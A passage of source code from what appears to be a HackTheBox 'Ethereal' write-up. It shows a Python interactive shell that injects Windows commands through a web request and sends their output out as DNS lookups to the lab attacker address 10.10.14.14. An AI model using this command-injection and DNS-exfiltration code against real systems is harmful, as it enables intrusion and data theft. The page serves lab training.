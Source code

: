      87         self.send_post(f'& nslookup {kill_domain} 10.10.14.14')
     88         sys.exit()
     89 
     90 
     91     def default(self, args):
     92         command = f'''& (FOR /F "tokens=1-26" %a IN ('{args}') DO ( nslookup "Q%aX.Q%bX.Q%cX.Q%dX.Q%eX.Q%fX.Q%gX.Q%hX.Q%iX.Q%jX.Q%kX.Q%lX.Q%mX.Q%nX.Q%oX.Q%pX.Q%qX.Q%rX.Q%sX.Q%tX.Q%uX.Q%vX.Q%wX.Q%xX.Q%yX.Q%zX" 10.10.14.14 ))'''
     93         self.send_post(command)
     94 
     95 
     96     def do_quiet(self, args):
     97         command = f'& ( {args} )'
     98         self.send_post(command)
     99 
    100 
    101 #dns = dns_sniff(interface='eth0', target_ip='10.1.1.153')
    102 dns = dns_sniff()
    103 dns.start()
    104 
    105 term = Terminal(proxy={"http": "http://127.0.0.1:8080"})
    106 try:
    107     term.cmdloop()
    108 except KeyboardInterrupt:
    109     term.do_exit()




[« Password Box Brute](/htb-ethereal-pbox.md)[COR Profilers
»](/htb-ethereal-cor.md)






